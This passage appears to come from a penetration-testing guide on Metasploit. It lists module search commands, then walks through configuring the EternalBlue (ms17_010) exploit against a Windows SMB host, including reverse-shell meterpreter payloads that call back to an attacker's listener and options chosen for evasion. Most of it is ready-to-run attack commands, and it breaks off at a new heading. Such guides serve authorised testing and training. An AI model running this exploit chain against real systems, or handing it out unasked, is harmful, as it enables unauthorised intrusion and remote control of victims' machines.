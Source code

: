 ### **Metasploit Search and Module Selection**

```bash
# Comprehensive search techniques
search ms17-010                              # Search by CVE/MS bulletin
search type:exploit platform:windows smb    # Multi-criteria search
search cve:2017 rank:excellent               # CVE year and reliability
search apache 2.4                           # Service and version
search author:rapid7                         # Search by author

# Advanced search operators
search platform:linux type:post             # Linux post-exploitation modules
search target:windows payload:meterpreter    # Windows meterpreter payloads  
search reliability:excellent platform:windows # High-reliability Windows exploits
search rank:great disclosure:2021            # Recent high-quality exploits

# Why advanced search is crucial:
# - 2000+ exploits require effective filtering
# - Quality ranking prevents unreliable exploits
# - Platform targeting improves success rates
# - Date filtering focuses on recent vulnerabilities

# Module information and requirements
info exploit/windows/smb/ms17_010_eternalblue # Detailed module information
show options                                 # Display required/optional parameters
show payloads                                # Compatible payloads for current exploit
show targets                                 # Available target configurations
show advanced                                # Advanced exploit options
show evasion                                 # Evasion options (if available)

# Module selection and configuration
use exploit/windows/smb/ms17_010_eternalblue # Select exploit module
set RHOSTS 192.168.1.10                     # Set remote host target
set RHOST 192.168.1.10                      # Alternative for single host
set RPORT 445                                # Set remote port (if different)
set LHOST 192.168.1.5                       # Set local host for payload callback
set LPORT 4444                               # Set local port for payload callback

# Payload selection and configuration
set payload windows/x64/meterpreter/reverse_tcp # Select specific payload
set payload generic/shell_reverse_tcp        # Generic shell payload
show payloads                                # List compatible payloads
set payload windows/meterpreter/reverse_https # HTTPS payload for evasion

# Why payload selection matters:
# - Different payloads provide different capabilities
# - Staged vs stageless payloads affect reliability
# - Protocol selection impacts evasion
# - Architecture matching (x86 vs x64) critical for success
```

### **Advanced Metasploit Configuration and Options**

